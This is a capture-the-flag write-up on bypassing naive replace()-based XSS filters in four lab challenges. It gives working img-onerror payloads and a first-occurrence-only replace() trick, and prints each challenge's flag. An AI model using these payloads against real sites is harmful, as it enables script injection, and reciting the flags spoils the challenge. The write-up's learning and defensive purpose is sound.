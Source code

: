 # Objective #

Cause a popup that says "Hello"


# Challenge 1 #

> bypass the filter that removes any script tags

JS:

    let inputted = ''
          let question = 0
          document.querySelector('#submit-1').addEventListener("click", function() {
            let chal1El = document.querySelector('#challenge-1')
            inputted = chal1El.value
            question = 1
            document.querySelector('#challenge-1-input').innerHTML = inputted.replace("script", "")
          });


XSS:

Tried \<img src=#> and it returns a small image logo

    <img src=# onerror=alert('Hello')>

Yay, got the flag! 
<details><summary>Flag</summary>
    3c3cf8d90aaece81710ab9db759352c0
</details>



# Challenge 2 #

> word "alert" is filtered

JS:

    document.querySelector('#submit-2').addEventListener("click", async function() {
            let chal2El = document.querySelector('#challenge-2')
            inputted = chal2El.value
            question = 2
            document.querySelector('#challenge-2-input').innerHTML = inputted.replace("alert", "")
            crappyCheck()
          });

XSS:

Well uh... what if we try using an image again?

\<img src=#> returns a small img logo, so it works

    <img src=# onerror="window.confirm('Hello')">

Yay I got the flag!
<details><summary>Flag</summary>
    a2e5ef66f5ff584a01d734ef5edaae91
</details>


# Challenge 3 #

> The word "Hello" is filtered

JS:

    document.querySelector('#submit-3').addEventListener("click", function() {
            let chal3El = document.querySelector('#challenge-3')
            inputted = chal3El.value
            question = 3
            document.querySelector('#challenge-3-input').innerHTML = inputted.replace("Hello", "")
          });


XSS:

I thought of how replace() actually works
Since we are passing it a value

	inputted = chal3El.value //line 3 of JS
	inputted.replace("Hello", "") //line 5 of JS

it only replaces the first instance of the string provided

Example:
> "Hello, Hello" returns ", Hello"

So let's try it

    Hello <img src=# onerror=alert('Hello')>

Success! 
<details><summary>Flag</summary>
    decba45d0eff17c6eedf1629393bee1d
</details>

### Note: ### 

I went back and tried this for challenge 2 as well. The popup with "Hello" would appear, but no flag for some reason :c


# Challenge 4 #

> The following is filtered:
    
    word "Hello"
    script
    onerror
    onsubmit
    onload
    onmouseover
    onfocus
    onmouseout
    onkeypress
    onchange


JS:

    document.querySelector('#submit-4').addEventListener("click", function() {
            let chal4El = document.querySelector('#challenge-4')
            inputted = chal4El.value
            question = 4
            document.querySelector('#challenge-4-input').innerHTML = inputted.replace("Hello", "").replace("script", "").replace("onerror", "").replace("onsubmit", "").replace("onload", "").replace("onmouseover", "")
            .replace("onfocus", "").replace("onmouseout", "").replace("onkeypress", "").replace("onchange", "")
          });

XSS:

    Hello onerror <img src=# onerror=alert('Hello')>

Hooray! Wish I realized the replace() issue sooner
<details><summary>Flag</summary>
    2482d2e8939fc85a9363617782270555
</details>
